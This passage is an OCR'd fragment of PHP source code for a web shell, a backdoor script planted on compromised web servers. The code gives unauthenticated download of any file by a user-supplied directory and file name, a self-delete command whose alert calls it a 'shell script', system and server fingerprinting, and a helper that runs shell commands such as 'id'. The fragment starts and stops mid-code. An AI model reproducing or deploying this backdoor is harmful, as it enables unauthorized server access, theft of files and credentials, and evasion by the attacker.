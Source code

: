 ```php
        }
        error_reporting(0);
        die();
    }

    if (isset($_REQUEST["download"])) {
        $dir = isset($_REQUEST["dir"]) ? $_REQUEST["dir"] : "";
        if (!empty($dir)) {
            $filename = isset($_REQUEST["file_name"])
                ? $_REQUEST["file_name"]
                : "";
            if (file_exists($dir . $filename)) {
                header("Content-Description: File Transfer");
                header("Content-Type: application/octet-stream");
                header(
                    'Content-Disposition: attachment; filename="' .
                        basename($filename) .
                        '"'
                );
                header("Expires: 0");
                header("Cache-Control: must-revalidate");
                header("Pragma: public");
                header("Content-Length: " . filesize($dir . $filename));
                readfile($dir . $filename);
                exit();
            } else {
                die("File does not exist.");
            }
        } else {
            die("Specify a directory.");
        }
    }

    if ($_GET["kill"] == "yes") {
        unlink($_SERVER["SCRIPT_FILENAME"]);
        echo "<script>alert('Your shell script was successfully deleted!')</script>";
    }
}

function getmicrotime()
{
    list($usec, $sec) = explode(" ", microtime());
    return (float) $usec + (float) $sec;
}

function getsystem()
{
    return php_uname("s") . " " . php_uname("r") . " " . php_uname("v");
}

function getserver()
{
    return getenv("SERVER_SOFTWARE");
}

function getuser()
{
    $out = get_current_user();
    if ($out != "SYSTEM") {
        if (($out = ex("id")) == "") {
            $out =
                "uid=" .
                getmyuid() .
```